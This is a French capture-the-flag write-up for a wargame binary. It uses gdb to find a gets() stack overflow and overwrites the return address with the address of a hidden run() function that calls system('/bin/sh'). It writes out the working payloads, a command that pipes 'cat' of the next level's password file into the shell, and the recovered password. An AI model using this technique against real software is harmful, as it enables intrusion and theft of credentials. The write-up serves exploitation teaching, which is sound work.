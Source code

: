 ## Comportement
En exécutant le binaire (`./level1`), on observe:
- qu'il attend un input de notre part.
- qu'il exit juste apres notre input.
- qu'il segfault `Segmentation fault (core dumped)` si l'input est trop long.

→ Peut-être un segfault à exploiter ?


## Analyse
En analysant le binaire (`gdb ./level1`) on observe:
- La fonction appelle "gets" qui n'est pas securisé en cas de buffer overrun (voir `man gets`).
  ```shell
  (gdb) disas main
  ...
  0x08048490 <+16>:	call   0x8048340 <gets@plt>
  ...
  ```
- Il existe une fonction `run()` qui n'est pas appelé dans `main()` : 
  ```shell
  (gdb) i functions
  ...
  0x08048444  run
  0x08048480  main
  ...
  ```
- Dans la fonction `run()` il y a un appel systeme : 
  ```shell
  (gdb) disas main
  ...
  0x08048472 <+46>:	movl   $0x8048584,(%esp) # argument envoye a la fonction system() en dessous
  0x08048479 <+53>:	call   0x8048360 <system@plt>
  ...
  ```
- Il suffit d'examiner l'adresse du parametre envoye a la fonction `system()` 
(situe une ligne au dessus) pour constater qu'on execute `/bin/sh`. 
Ce qui est une technique courante pour lancer un shell interactif. 
  ```shell
  (gdb) x/s 0x8048584
  0x8048584:	 "/bin/sh"
  ```
- Il faudrait une commande `call` dans la fonction `main()` pour que l'on puisse facilement l'overflow avec 
l'adresse de `run()` mais il n'y en a pas. Par contre en fin de fonction il y a toujours la commande `ret` : 
elle retourne a l'adresse precise ou le programme se trouvait avant d'executer la fonction en question 
(c'est l'`ebp` precedent ("old ebp") qui est push sur la stack a la toute premiere instruction de chaque fonction) : 
  ```shell
  (gdb) disas main
  ...
  0x08048480 <+0>:	push   %ebp # ebp push sur la stack
  0x08048481 <+1>:	mov    %esp,%ebp # ebp remplace par esp
  ...
  0x08048495 <+21>:	leave  # esp remplace par ebp + pop ebp hors de la stack
  0x08048496 <+22>:	ret # renvoi vers ebp
  ...
  ```

## Résolution
- Il faut donc overflow la valeur de l'`ebp` avec l'adresse de la fonction `run()` pour que quand la 
commande `ret()` sera execute, c'est `run()` qui sera appelee et donc notre appel systeme sera execute
ouvrant ainsi un shell interactif.
- Il faut trouver l'offset de l'`eip` (le pointeur deu jeu d'instruction en cours) pour savoir de 
combien il faut overflow le buffer. Dans `main()` on a vu que le buffer est de 80 bytes. 
(`0x08048486 <+6>:		sub    esp,0x50`). On obtient bien un segfault : 
```shell
$ python -c 'print "A" * 80' | ./level1
Segmentation fault (core dumped)
```
- Maintenant il faut gerer le padding, c'est a dire soustraire suffisament de bytes pour placer l'adresse 
de la fonction `run()` (`0x08048444`) que l'on veut inserer. Elle prend 4 bytes. On obtient encore un 
segfault, cette fois ce n'est pas normal car `run()` aurait du etre appele. 
```shell
$ python -c 'print "A" * 76 + "\x08\x04\x84\x44"' | ./level1
Segmentation fault (core dumped)
```
- En regardant bien la stack, on voit que l'adresse est inscrite en little endian, il faut donc l'inverser.
La fonction `run()` ets bien appele ! On le voit grace au print "Good... Wait what?" mais ou est le shell ? 
```shell
$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```
- Le shell exit car son process parent exit. Du coup il faut modifier le code pour fait un cat du mot
de passe avant que le shell ne se ferme. Cela donne : 
```shell
$ (python -c 'print "A" * 76 + "\x44\x84\x04\x08"'; echo "cat /home/user/level2/.pass") | ./level1
Good... Wait what?
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
Segmentation fault (core dumped)
```

Il ne reste plus qu'à :
- et passer au level1 (`su level1`) en renseignant le password obtenu plus haut.


